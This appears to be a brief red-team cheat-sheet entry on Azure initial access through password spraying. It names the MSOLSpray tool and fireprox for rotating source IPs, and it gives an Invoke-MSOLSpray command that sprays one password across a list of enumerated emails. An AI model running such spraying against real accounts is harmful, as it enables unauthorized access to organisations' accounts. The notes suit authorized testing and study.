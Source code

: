 # Initial Access
#### Password Spray/Brute Force
- We will use a single password against multiple users that we have enumerated.
- This is definitely noisy and may lead to detection!
- For Azure, password spray attack can be done against different API endpoints like Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice etc


MSOLSpray 
https://github.com/dafthack/MSOLSpray ) 

for password spray against the accounts that we discovered.
-The tool supports fireprox to rotate source IP address on auth request.
https://github.com/ustayready/fireprox

```
C:\AzAD\Tools\MSOLSpray\MSOLSPray.ps1
Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt
Password SuperVeryEasytoGuessPassword@1234 Verbose
```

